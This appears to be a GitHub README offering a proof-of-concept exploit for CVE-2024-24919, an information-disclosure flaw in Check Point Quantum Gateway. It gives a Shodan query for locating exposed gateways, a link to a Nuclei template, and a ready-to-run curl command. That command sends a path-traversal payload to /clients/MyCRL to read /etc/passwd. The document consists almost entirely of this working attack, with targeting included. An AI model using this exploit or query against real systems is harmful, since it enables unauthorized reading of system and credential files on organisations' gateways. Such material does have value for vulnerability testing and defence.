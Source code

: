 # POC CVE-2024-24919
#### Check Point Quantum Gateway - Information Disclosure<br>
#### Nuclei Template : <a href="https://github.com/johnk3r/nuclei-templates/blob/main/http/cves/2024/CVE-2024-24919.yaml">CVE-2024-4919.yaml</a>

#### Shodan : title:"Check Point" || "Server: Check Point SVN" "X-UA-Compatible: IE=EmulateIE7"
#### Exec : curl --path-as-is -i -s -k -X 'POST' -H $'Host: target' -H 'Content-Length: 39' -H 'Connection: keep-alive' --data-binary 'aCSHELL/../../../../../../../etc/passwd' 'https://target.com/clients/MyCRL'
